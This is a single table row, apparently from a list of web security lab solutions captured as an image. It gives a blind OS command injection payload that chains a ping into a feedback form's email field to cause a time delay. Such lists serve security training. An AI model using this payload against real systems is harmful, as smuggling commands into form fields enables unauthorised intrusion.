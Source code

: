 |81    |Blind OS command injection with time delays                                                                              |email=x&#124;&#124;ping+-c+10+127.0.0.1&#124;&#124;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Requests to the feedback form                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |OS Command Injection, Practitioner          |